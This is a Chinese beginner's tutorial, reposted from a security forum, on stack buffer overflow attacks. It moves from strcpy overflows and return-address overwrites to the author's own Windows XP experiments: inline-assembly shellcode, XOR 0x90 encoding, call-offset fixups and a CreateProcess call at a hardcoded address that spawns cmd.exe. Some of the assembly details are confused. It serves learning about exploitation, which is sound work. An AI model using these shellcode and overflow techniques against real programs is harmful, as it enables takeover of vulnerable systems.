# 缓冲区溢出攻击浅析，写给初学者

> 原文：[`www.pediy.com/kssd/pediy12/131340.html`](https://www.pediy.com/kssd/pediy12/131340.html)

缓冲区溢出是一种非常普遍、非常危险的漏洞，在各种操作系统、应用软件中广泛存在。利用缓冲区溢出攻击，可以导致程序运行失败、系统当机、重新启动等后果。更为严重的是，可以利用它执行非授权指令，甚至可以取得系统特权，进而进行各种非法操作。缓冲区溢出攻击有多种英文名称：buffer overflow，buffer overrun，smash the stack，trash the stack，scribble the stack， mangle the stack， memory leak，overrun screw;它们指的都是同一种攻击手段。第一个缓冲区溢出攻击--Morris 蠕虫，发生在十年前，它曾造成了全世界 6000 多台网络服务器瘫痪。  
  
　　**一、 缓冲区溢出的原理**  
  
　　通过往程序的缓冲区写超出其长度的内容，造成缓冲区的溢出，从而破坏程序的堆栈，使程序转而执行其它指令，以达到攻击的目的。造成缓冲区溢出的原因是程序中没有仔细检查用户输入的参数。例如下面程序：  

代码:

```
void function(char \*str)
{
  char buffer\[16\];
　strcpy(buffer,str);
}

```

　　上面的 strcpy()将直接吧 str 中的内容 copy 到 buffer 中。这样只要 str 的长度大于 16，就会造成 buffer 的溢出，使程序运行出错。存在象 strcpy 这样的问题的标准函数还有 strcat()，sprintf()，vsprintf()，gets()，scanf()等。  
　　当然，随便往缓冲区中填东西造成它溢出一般只会出现“分段错误”(Segmentation fault)，而不能达到攻击的目的。最常见的手段是通过制造缓冲区溢出使程序运行一个用户 shell，再通过 shell 执行其它命令。如果该程序属于 root 且有 suid 权限的话，攻击者就获得了一个有 root 权限的 shell，可以对系统进行任意操作了。  
　　缓冲区溢出攻击之所以成为一种常见安全攻击手段其原因在于缓冲区溢出漏洞太普遍了，并且易于实现。而且，缓冲区溢出成为远程攻击的主要手段其原因在于缓冲区溢出漏洞给予了攻击者他所想要的一切：植入并且执行攻击代码。被植入的攻击代码以一定的权限运行有缓冲区溢出漏洞的程序，从而得到被攻击主机的控制权。  
　　在 1998 年 Lincoln 实验室用来评估入侵检测的的 5 种远程攻击中，有 2 种是缓冲区溢出。而在 1998 年 CERT 的 13 份建议中，有 9 份是是与缓冲区溢出有关的，在 1999 年，至少有半数的建议是和缓冲区溢出有关的。在 Bugtraq 的调查中，有 2/3 的被调查者认为缓冲区溢出漏洞是一个很严重的安全问题.  
  
　**二、缓冲区溢出的漏洞和攻击**  
  
　　缓冲区溢出攻击的目的在于扰乱具有某些特权运行的程序的功能，这样可以使得攻击者取得程序的控制权，如果该程序具有足够的权限，那么整个主机就被控制了。一般而言，攻击者攻击 root 程序，然后执行类似“exec(sh)”的执行代码来获得 root 权限的 shell。为了达到这个目的，攻击者必须达到如下的两个目标：  

*   在程序的地址空间里安排适当的代码。
*   通过适当的初始化寄存器和内存，让程序跳转到入侵者安排的地址空间执行。

\[/SIZE\]  
**【1】 在程序的地址空间里安排适当的代码的方法**  
　　有两种在被攻击程序地址空间里安排攻击代码的方法：  

*   植入法：

攻击者向被攻击的程序输入一个字符串，程序会把这个字符串放到缓冲区里。这个字符串包含的资料是可以在这个被攻击的硬件平台上运行的指令序列。在这里，攻击者用被攻击程序的缓冲区来存放攻击代码。缓冲区可以设在任何地方：堆栈(stack，自动变量)、堆(heap，动态分配的内存区)和静态资料区。  
我将采用这一种方法来学习一下缓冲区溢出的过程与方法。  

*   利用已经存在的代码：

     有时，攻击者想要的代码已经在被攻击的程序中了，攻击者所要做的只是对代码传递一些参数。比如，攻击代码要求执行“exec (“/bin/sh”)”，而在 libc 库中的代码执行“exec (arg)”，其中 arg 使一个指向一个字符串的指针参数，那么攻击者只要把传入的参数指针改向指向”/bin/sh”。  
\[COLOR="red"\]在 Pax 出来后，确实给溢出攻击造成了困难，但是，之后一种叫 return to libc 的技术，成功地突破了非执行栈限制。这就是一种利用现有的代码进行执行的方法。\/COLOR  
  
**【2】 控制程序转移到攻击代码的方法**  
  
　　所有的这些方法都是在寻求改变程序的执行流程，使之跳转到攻击代码。最基本的就是溢出一个没有边界检查或者其它弱点的缓冲区，这样就扰乱了程序的正常的执行顺序。通过溢出一个缓冲区，攻击者可以用暴力的方法改写相邻的程序空间而直接跳过了系统的检查。  
分类的基准是攻击者所寻求的缓冲区溢出的程序空间类型。原则上是可以任意的空间。实际上，许多的缓冲区溢出是用暴力的方法来寻求改变程序指针的。这类程序的不同之处就是程序空间的突破和内存空间的定位不同。主要有以下三种：

*   活动纪录(Activation Records)：

　　每当一个函数调用发生时，调用者会在堆栈中留下一个活动纪录，它包含了函数结束时返回的地址。攻击者通过溢出堆栈中的自动变量，使返回地址指向攻击代码。通过改变程序的返回地址，当函数调用结束时，程序就跳转到攻击者设定的地址，而不是原先的地址。这类的缓冲区溢出被称为堆栈溢出攻击(Stack Smashing Attack)，是目前最常用的缓冲区溢出攻击方式。

*   函数指针(Function Pointers)：

　函数指针可以用来定位任何地址空间。例如：“void (\* foo)()”声明了一个返回值为 void 的函数指针变量 foo。所以攻击者只需在任何空间内的函数指针附近找到一个能够溢出的缓冲区，然后溢出这个缓冲区来改变函数指针。在某一时刻，当程序通过函数指针调用函数时，程序的流程就按攻击者的意图实现了。它的一个攻击范例就是在 Linux 系统下的 superprobe 程序。

*   长跳转缓冲区(Longjmp buffers)：

在 C 语言中包含了一个简单的检验/恢复系统，称为 setjmp/longjmp。意思是在检验点设定“setjmp(buffer)”，用“longjmp(buffer)”来恢复检验点。然而，如果攻击者能够进入缓冲区的空间，那么“longjmp(buffer)”实际上是跳转到攻击者的代码。象函数指针一样，longjmp 缓冲区能够指向任何地方，所以攻击者所要做的就是找到一个可供溢出的缓冲区。一个典型的例子就是 Perl 5.003 的缓冲区溢出漏洞;攻击者首先进入用来恢复缓冲区溢出的的 longjmp 缓冲区，然后诱导进入恢复模式，这样就使 Perl 的解释器跳转到攻击代码上了。  
这里我用的就是直接利用函数调用时的栈溢出覆盖了返回地址，利用了 ret 指令进行的最简单的溢出研究  
  
**【3】代码植入和流程控制技术的综合分析**  
![  
    根据不同的编译器，栈的布局有一些改变。原理是一样的。在进行一次函数调用的时候会先把函数的参数压栈，这个顺序一般来说是从右到左的。参数压栈完毕后会调用指令：call @address，这个指令用的是一个相对指令进行寻指的。相当于一个条 push 指令和一个 jmp 指令。这也是在反汇编的时候看到的一样，执行完这一条指令后 esp 的值会减 4.相应的把 retAddress 压入到栈中，而后进入函数后会继续对 ebp 的值给压入到栈里。然后下面的栈空间就是这一个函数的局部变量的存放地址。  
    下面对一个函数进行反汇编看到的结果：  
  
代码:

```
Int Add(int x ,int y)
{
Push  ebp;
mov    ebp,esp
sub    esp,44h
push  ebx
push  esi
push  edi
Lea    edi,\[ebp-44h\]
mov    ecx,11h
mov    eax,0xcccccccc
rep    eax,0cccccccch
Int sum;
sum=x+y;
mov    eax,dword ptr \[ebp+8\]
add    eax,dword prt \[ebp+12\]
mov    dword ptr\[ebp-4\]，eax
return sum;
mov   eax,dword ptr \[ebp-4\]
}
pop    edi
pop    esi
pop    ebx
mov    esp,ebp
pop    ebp
ret

```

首先会把 ebp 的值存起来，这个这 c 里一般用来暂存的是 esp 的值。所以要先把原来的值压栈保存。然后再把 esp 的值拷到里面。然后有一句：sub esp 44h。这一句是用来对些函数的局部变量空间进行保护。减了以后的话 esp 就指向了这一层函数调用的下一函数调用的栈的开始的地方。这样就把了函数的调用与此时的局部变量的空间进行了分开。而后的一些 rep eax，0cccccccch 是拿来填充我的们局部变量空间的。其实这是一条指令为一条软中断指令。Int 3.这样做的好处是显而易见的。首先这个是一条单字节指令。无论怎么移动 ip 只要在这些地方进行执行，就可以解释为一条中断指令。这样就避免了我们在写程序的时候程序非法执行到栈上的时候。就可以中断程序继续执行下去。也是相当于对一些安全的考虑。而这些值 int 3 的机器码两个字节对应在一起就是一个汉字的编码。也正是我们在调试程序的时候看到的“烫烫烫烫烫烫烫烫烫烫烫烫烫烫………@#$$$%..”字符串。  
在一个函数的栈中，参数与局部变量的分界线为：ebp 的值。之上为参数与返回值还有保存起来的原来的 ebp 的值。另外 ebp-xx 的值就是这一个函数的局部变量的值。（**这个是正确的吧）**而变量的内存地址的规律为先申请**（这个是先声明的，不是先赋值的。免得有些人又说我是抄的别人的）**的变量在高地址的空间，后申请的在后面（低地址空间）。如上面的 ebp-4，和 ebp-8，分别对应着 x 和 y 变量**。（这个写错了。这里只有一个变量 sum  
mov    dword ptr\[ebp-4\]，eax  
这一个可以看出第一个局部变量为 ebp-4）**有了这些规律后就可以对栈上的局部变量进行分布考查。如上面的图中所示在一个函数中若有一个 buf 的缓冲区。而这一个缓冲区没有足够的长，或者是我们故意来溢出它。就可以在填充了 buf 后再往栈的高地址进行填充覆盖。这样我们就可以进行返回地址的覆盖了。当函数返回的时候我们就可以到我们的代码所在的地方。\[/B\]      
    在一个函数的栈中，参数与局部变量的分界线为：ebp 的值。之上为参数和返回地址（RetAddress）值还有保存起来的原来的 ebp 的值。  
下图就是汇编执行过程栈的变化过程  


>       一般来说要直接跳到我们的代码在的地方是不可能的。在 windows 上，不幸的是这个栈起始地址很低，0x00130000，所以无法保证没有 00 字节出现这个要求，而且多线程的特性，有使得这个值变化不定，更不可能事先计算出来。所以在 windows 中有了一个更加巧妙的办法。在程序中去找一个条指令叫：jmp esp 的指令。若找到这么一条指令我们就可以把函数的返回地址写为这一第指令所在的地方。这样在执行完 jmp esp 的时候我们的程序就会又回到栈上来执行。而此时的执行地方刚好是 retAddress 的高一个单位（4 字节）的地方处。只要我们在这里放上我们的代码就可以开始执行了。

**寻找 jmp esp 类似代码**

1.  有一个调试器叫 ollyDbg，有一个插件叫 ollyUni，就有查找的功能。
2.  通过自己编写内存查找器可以很容易的实现指令的查找。

由于是初学，所以就没有仔细的去找。因为有太多的东西要在一起学。若调不通的话就会遇到很多的问题。最后什么也没有学到。所以先找了一个已经知道的地址，这个在 kernel32.dll 中，地址为 0x7ffa4512。可以写程序验证一下是不是。如下图所示，我们的确找到了这么一条指令：  
而从下面的一个图中我们可以看到**这一条指令是我们凑出来的**。因为这在一个默认的编码中地址也不是这样对应的，也没有找到相应的指令。  
这些都没有关系。只要有我们想要的指令，还有它们一定会被加载在固定的位置就行了。  
**【4】编制 shellcode**  
这里使用的是老师的方法：就是利用 label 标定出一段嵌入汇编代码的起始和结束地址，然后将他拷贝出来即可。非常好用，可以直接嵌入高级语言中工作。  
  
代码:

```
char \*   retAddr;//global 
int     gi;
void \* getCode()
{
  char \* codeStart, \* codeEnd;
    int codeLen;
  void \* code;
   \_asm
   {
      mov codeStart, offset \_startCode;
      mov codeEnd, offset \_endCode;
   }
  codeLen = codeEnd - codeStart;
  code  = malloc(codeLen);
  memcpy(code, codeStart, codeLen);
  return code;
  //the following code never run.
\_startCode:
  \_asm  
        {    
         mov gi, 23;    
         jmp retAddr;  
        }
\_endCode:  
  return;
}
void main()
{
  void \* code;
  \_asm mov retAddr, offset \_retAddr;
  gi  = 12;
  printf("gi is %d\\n", gi);
  code = getCode();

  \_asm jmp code;
\_retAddr:
  printf("gi is %d\\n", gi);
  free(code);
}

```

下面是执行后的结果。证明这此代码确实能够执行。并且改变了原来的变量 gi 的值。  
在这一个代码中能够执行一些代码，我就想是否能够执行一些比较高级的应用呢。比如在这一个程序中调用一下 printf 函数显示一些东西（如”never run here!!”）。于是简单的加入一一条令语句。Printf（“这是 shell code 中的 printf\\n”）；如下：  
  
代码:

```
\_startCode:

  printf(“这是 shell code 中的 printf\\n”);
  \_asm{
    mov gi, 23;
    jmp retAddr;
  }

\_endCode:

```

但是并不是我想象的那样直接打印出一条语句就完，真正的情况是没有执行。程序死掉了。考虑到前面说的 call 调用用的是一个相对的地址进行寻址的。所以在新的地址 code 的地方是不一样的偏移地址的。  
如上图所示的 0x003710000 为 code 内在的起始地址。其中里面有一条 call 00371220 指令。没有显示成如下的原来的代码的地方的机器码与汇编一样的形式：  
所以是相对地址有问题。如上图的机器码我们可以看到 call 的机器码为 E8，所以在拷完后要进行地址的修改。这个情况与韩老师遇到的钩子程序的时候搬移指令的时候遇到了卡巴的钩子程序会先于我们的程序进行挂钩。所以有 jmp 类似的指令要进行搬移。而这一类指令是用的是相对偏移地址进行寻址的。所以要对地址进行修正。先搜索 E8 然后再进行修改。  
  
代码:

```
for(int i=0;i<codeLen;i++)
  {
    if (temp\[i\]==0xE8)
    {
      temp=temp+i+1;
      ttp=(unsigned int \*)temp;
      printf("\\tttp=0x%x\\n",\*ttp);
      if (code<codeStart)
      {
        tempValue=codeStart-code;
        \*ttp+=tempValue;
      }else{
        tempValue=code-codeStart;
        \*ttp-=tempValue;
      }
      break;
    }
  }

```

得到了正确的结果：如下所示，打印了 printf，也改变了 gi 的值。  
**【5】自己溢出自己**  
现在把得到的 shellcode 用来模拟一次溢出，所以在 main 函数中调用一个有 buf 的函数。在此函数中进行数据的拷贝，而我们用的是 strcpy 函数：它会在遇到 0 的时候自动结束拷贝。而我们的 code 中的代码如下：可以看到左边的那一栏中是原来的机器码。其中有很多的零。若直接拷贝的话不能进行全拷贝。所以是行不通的。因此要对代码进行一次加密。加密的方法也行简单的，或者说是一种编码方法。这里用的是 0x90 进行的，可能这个不是最好的一个值。到现在还没有遇到问题。先就用它了。  
**先进行加密**  
  
代码:

```
for (int j=0;j<codeLen;j++)
  {  
    printf("source\_code\[%d\]=0x%x\\t",j,code\[j\]);
    code\[j\]^=0x90;
    printf("code\[%d\]=0x%x\\n",j,code\[j\]);
  }

```

再解密：  
代码:

```
for (int j=0;j<len;j++)
  {
    
    //printf("sourccode\[%d\]=0x%x\\t",j,tp\[j\]);
    tp\[j\]^=0x90;
    //printf("code\[%d\]=0x%x\\n",j,tp\[j\]);
  }

```

同样也要在新的内存单元对 call 的偏移量进行调整。  
代码:

```
for (temp=0;temp<len;temp++)
    {
      if (tp\[temp\]==0xe8)//寻找 E8，再改地址
      {
        printf("E8 在 temp=%d\\n",temp);
        unsigned int \*intP=(unsigned int \*)(tp+temp+1);
        printf("以前的偏移量为：\*intP=0x%x\\n",\*intP);
        printf("以前的地址为：k=0x%x\\n",k);
        printf("现在的地址为：tp=0x%x\\n",tp);
        if (addrs2>addrs1)
        {
          unsigned int addr=addrs2-addrs1;//原来是 k-tp
          \*intP-=addr;
        }
        else{
          unsigned int addr2=addrs1-addrs2;//原来是 tp-k
          \*intP+=addr2;
        }
        printf("intP=0x%x\\n",intP);
        printf("\*intP=0x%x\\n",\*intP);
        break;
      }
    }

```

这里有一个小插曲：先前的代码是用的上面的红色注释掉的那些。也就是用的是原来的指针。K 也就是从 fun 函数的参数传进来的。也就是 code 的地址的指针。一开始也是正常的。本来按道理一些都是正常的，能够进行相应的操作。不知道是何故在如下面的代码执行完画线的 strcpy 后它的值变了。  
  
  
  
这样又一次的失败。但是按照自己的想法用笔算出来的偏移是正确的。结果发现这一个指针的值被改变。（现在还没有弄明白是怎么一回事）先不想它，绕过的方法就是先把指针的值保存起来。然后用保存的值进行运算。所以有了上面的 addrs1 与 addrs2。通过上面的改写程序可以跑起来。也可以得到自己想要的结果。不过程序最后还是死了，可能是没有平堆栈的问题。  
  
后来仔细一想，看了一看程序。还有前面老师给的 ppt 的程序中有一个验证的程序有如下的一段代码：  
这些是因为在 c 调用约定中，是谁调用、谁清栈。因此我们在 main 函数中调用返回后其实要执行一段代码来弹出压入给 fun 函数的参数。而栈溢出后函数没有正常返回到要去的地方。因此我们要在另外的地方补上这一个代码。因此有如下的代码加入到程序中便可以。运行后没有出现调试错误信息框。  
  
**【6】关于 CreapteProcess 的调用生成 cmd.exe 进程的方法。**  
  在一个 shellcode 中要调用 createProcess 函数，需要知道 kernel32 的基址。老师介绍了一些方法来得到基址。这是一个最初的编程想法，所以在 shellcode 中定位 CreateProcess 的代码就省去了。现在只是写一个从其它方法得到了地址。然后硬编码到了 shellcode 中了。  
从老师给的例程 code\\SeekKernelbase 中可以得到 kernel32 的基地址为 0x7c800000 我使用的操作系统为 windows xp sp2 系统。而对于没有进行重定位的 kernel32.dll 中的 createprocess 的地址为：0x2367.这一个可以用 dump 命令可以看到。这是一个 vs2008 自带的工具。Vc6 好像没有看到。 不晓得有没有。我是在 windows 核心编程第五版上看到的这一个用法。一开始还不晓得怎么找一个函数的基地址。后来想起看那本书的时候对 dll 的导出结构有一定的介绍。于是就用了一下这一个命令：  
  
刚开始是用的 dumpbin.exe export c:\\kernel32.dll(我把 kernel32.dll 拷到了 c：\\中)可是起到是起作用了。但是由于太多，看不到 createProcess 的地址。于是查看它的帮助：直接输入 dumpbin.exe 或者是：dumpbin.exe /?。  
  
得到一个/out:文件名。这个我想应该是一个重定位输出流的东东。在 linux 中看到过。于是试了几下终于把格式弄明白了。用 dumpbin.exe out:c:\\t.txt exports c:\\kernel32.dll。然后出现在 c 的根目录多了一个 t.txt 的文件。打开一看有我们要的 createProcessA(可以看到我们其实调用到的为 createxxx--A 的版本的函数)  
  
把它们组合在一起我们就得到了 CreateProcess 的地址为 0x7c802367 的地址。然后我试着用汇编的代码来调用这一个函数。可是又遇到了很多的问题。首先我是这样写的  
代码:

```
mov  ppp,0x7c800000+0x2367;//先存入绝对地址
mov  eax,ppp;                                                              //暂存到 eax 中
sub  eax,(offset lab1);                                                          //与下一个标号的地址进行相减，得到相对地址
mov  ppp,eax;        //再存到 ppp 指针中
push 0;      //传入第一个参数 null
push p3;      //传入第二个参数，这是一个批向一个”cmd.exe”字串的指针
push 0;       //这是第三个参数 null
push 0;      //第四个参数：null
push 1;      //第五个参数：TRUE
push  CREATE\_DEFAULT\_ERROR\_MODE;//这里用的是一个掩码，windows 定义的
push  0;    //null
push  0;    //null
push  p1;    //si 指针：\*LPSTARTUPINFO
push  p2;    // ppiP 指针:PPROCESS\_INFORMATION
call  ppp;
lab1:add esp,40;

```

认为先得到一个相对地址，存起来。在 call 调用的时候有用。依次从左往左压入参数，调用完了之后再把栈平衡，也就有了最后一条 add esp，40.可是程序没有正常工作。然后与用以语言编写的代码的汇编码一比较发现我传入的参数次有问题。应该是从右到左的传入参数。而我刚好弄反了。但是把这一个改过来后一调试还是不是我想要的结果。一个也不晓得怎么办。只能一步步的看汇编码。发现在 call ppp 之后并没有跳到我们预想的 0x7c802367 那一块地址。这时我就纳闷了，也只有把 c 语言版的拿来对比。发现好像它的 call 指令用的是一个绝对地址，也就是填的 0x7c802367 的地址填到了寄存器中。于是计上心来，不妨先把绝对地址放到 ppp 指针中，把上面的浅绿色的部分给注释掉，发现在程序跑到我们想要去的地方 0x7c802367。这时就奇怪了，怎么这里用的是一个绝对地址呢。在网上查过后发现其实 call 有 near 与 long 之分。且寻址方式不同，一个是相对寻址，一个为绝对寻址。而这里就是一个 longcall。所以是一个绝对寻址。而且两者的机器码是不一样的。若为 E8 的为近调用，B4 的为远调用，而用绝对寻址方式。  
  
上面的问题解决后能够生成一个 cmd.exe 的进程，不过程序要报错。思来想去又是栈没有平衡。其实 windows 的函数是用的\_\_stadcall 因此是自自己清栈的，不用我们给平衡堆栈。所以最后一条指令 add esp,40 是不用的。因此可以换成一个 nop 指令。  
接着再用到**自定位代码**来找到相应的参数的方法。写一段 shellcode 然后先直接在主函数中用 jmp 指令跳到我们写的 shellcode 的地方进行执行，看一下效果。其后试着在一个函数调用 fun（）中复制到一个缓冲区，此时故意从返回地址的下一个地址开始进行复制。因此故意溢出了栈。我们的 shellcode 相当于在栈上运行了。   
   下面是构造的 shellcode 的形式。其中的 nop 指令的地方是在用新的堆上进行复制的时候我们要填充成我们想要的参数，然后再用自定位代码把这些参数传给我们的 CreateProcess 函数。显然这些都是用汇编写的。而非直接对它进行调用。我们预先知道了它的地址。  
  
代码:

```
\_startCode:
  \_asm
  {
//=================10===================================
    /\*            for 
    ------PPROCESS\_INFORMATION---------
    \*/
    call next3;/\*5byte\*/
      
\_proc\_info:
    //1\*4
    nop;
    nop;
    nop;
    nop;
    //2\*4
    nop;
    nop;
    nop;
    nop;
    //3\*4
    nop;
    nop;
    nop;
    nop;
    //4\*4
    nop;
    nop;
    nop;
    nop;

next3:
    /\*
    pop   eax;
    push  eax;
//相当于先弹到 eax 中，得到了第一个结构体的地址。再入栈就是最后一个参数的指针。
    \*/
//==================9====================================
    /\*           for 
    ----------STARTUPINFO-------------
    \*/

    call  next2;/\*5byte\*/
    
\_start\_info:
    //1\*10
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    //2\*10
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    //3\*10
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    //4\*10
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;  
    //5\*10
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    //6\*10
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    //6\*10+8
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;
    nop;  

next2:
    /\*
    pop   eax;
    push  eax;
//相当于先弹到 eax 中，得到了第一个结构体的地址。再入栈就是倒数第二个参数的指针。
    \*/
//==========8，7，6，5，4，3======================
    push  0;
    push  0;
    push  CREATE\_DEFAULT\_ERROR\_MODE;
    push 1;
    push 0;
    push 0;
//==============push cmd.exe=====2======================
    call next1;
\_cmd:  nop;//’c’
    nop;//’m’
    nop;//’d’
    nop;//’.’
    Nop;//’e’
    nop;//’x’
    nop;//’e’
    nop;//’\\0’
next1:  pop  eax;
    push eax;
/\*
    本来想在这里直接改成我们想要的 cmd.exe 可是会出现访问违规的操作
。默认的代码段是不可以写的    
    mov \[eax\],'c';
    mov \[eax+1\],'m';
    mov \[eax+2\],'d';
    mov \[eax+3\],'.';
    mov \[eax+4\],'e';
    mov \[eax+5\],'x';
    mov \[eax+6\],'e';
\*/
//-=========-push 参数 1==========1===================
    push 0;
    mov  eax,0x7c800000+0x2367;
    call  eax;
    jmp retAddr;
  }
\_endCode: 

```

先用 jmp code 跳到堆上面去执行，此时的代码可以跑起来。不过此时的代码要把前面我们为了平衡栈在主函数里加的 add esp 4；给去掉。因此这里只是跳到别处去执行然后又会自动跳回来，所以不会用到 stack。也不用去平衡它。  
  
再利用 strcpy 在 fun 函数中拷到栈上去，不过要先加密，后解密。不然不能够全拷贝。此时需要在主函数中加上一条 add esp 4 的指令。  
下面是程序的截图。我们可以看到前面一点是为了调程序打印出的信息。而后面已经新建了一个进程显示了版权等信息。我们可以用它输入信息。若用的是一个 win32 程序效果就会更明显。  
